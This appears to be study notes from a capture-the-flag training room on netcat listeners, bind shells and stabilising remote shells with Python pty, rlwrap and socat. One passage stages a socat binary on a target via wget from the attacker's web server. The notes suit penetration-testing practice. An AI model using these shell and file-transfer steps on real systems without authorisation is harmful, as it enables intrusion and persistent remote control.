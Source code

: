 #### NETCAT

The syntax for starting a netcat listener using Linux is this:
`nc -lvnp <port-number>`
- **-l** is used to tell netcat that this will be a listener
- **-v** is used to request a verbose output
- **-n** tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- **-p** indicates that the port specification will follow.

_Bind Shells_
If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:

`nc <target-ip> <chosen-port>`

netcat shell are highly unstable so there are way that can make them more 
_Technique 1: Python  

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.
_Technique 2: rlwrap_

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

 _Technique 3: Socat_  

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
